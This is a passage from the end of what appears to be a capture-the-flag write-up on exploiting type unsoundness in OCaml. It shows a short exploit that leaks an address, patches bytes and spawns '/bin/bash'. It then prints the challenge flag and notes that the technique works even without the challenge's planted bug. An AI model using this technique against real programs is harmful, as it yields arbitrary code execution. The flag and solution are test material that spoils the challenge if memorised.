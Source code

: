 ```ocaml
let magic_addr = !(leak_fn magic (true, ref (A1 (ref 1)))) * 2
let magic_bytes = mkbytes ((magic_addr + 3) / 2) (true, ref (B2 (of_string "x")))
let _ = set magic_bytes 5 (char_of_int 0x82)
let _ = set magic_bytes 6 (char_of_int 0x01)
let _ = magic "/bin/bash"
```

When run, this hands us a shell, from which we can use `ls` and `cat` to get the flag:

`TSGCTF{superCamlFlagilisticExplicitUnsound}`

Best of all, it works even with `PWN` unset, i.e. without the deliberate bug that was
introduced for this problem!

{% endraw %}
